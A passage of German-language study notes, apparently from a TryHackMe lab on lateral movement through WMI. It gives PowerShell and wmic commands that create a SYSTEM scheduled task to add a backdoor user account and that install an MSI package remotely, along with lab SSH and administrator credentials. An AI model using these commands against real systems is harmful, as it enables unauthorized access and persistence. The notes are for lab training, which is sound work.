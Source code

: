Wir können auch geplante Tasks mit einigen cmdlets die in Windows verfügbar sind erstellen:

```bash
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

Den Task löschen wir wieder mit:

```bash
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### Installing MSI Packages trough WMI

- Ports:
>135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

MSI in ein Dateiformat für Installer. Wenn wir ein MSI Package auf das Zielsystem laden können, können wir mit WMI versuchen, dieses für uns zu installieren. Dazu versuchen wir die Win32_Product Klasse über WMI anzusprechen:

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

Auf Legacy System können wir folgenden Befehl ausführen:

>wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi


### Lets Get to Work!

Um das gelernte jetz anzuwenden, nutzen wir die Credentials, die wir ganz zu Anfang bekommen haben. Wir vebinden uns zur Maschine über SSH:

>ssh henry.bird@thmjmp2.za.tryhackme.com

Wir gehen davon aus, wir haben bereits auch Credentials für einen administrativen Zugang erhalten:

>User: ZA.TRYHACKME.COM\t1_corine.waters

>Password: Korine.1994

Wir werden mit diesen Creds jetzt uns seitlich im Netzwerk bewegen (lateral movement) und auf THM-IIS zugreifen. 

Als erstes müssen wir folgende Befehle durchführen um uns mit WMI verbinden zu können.
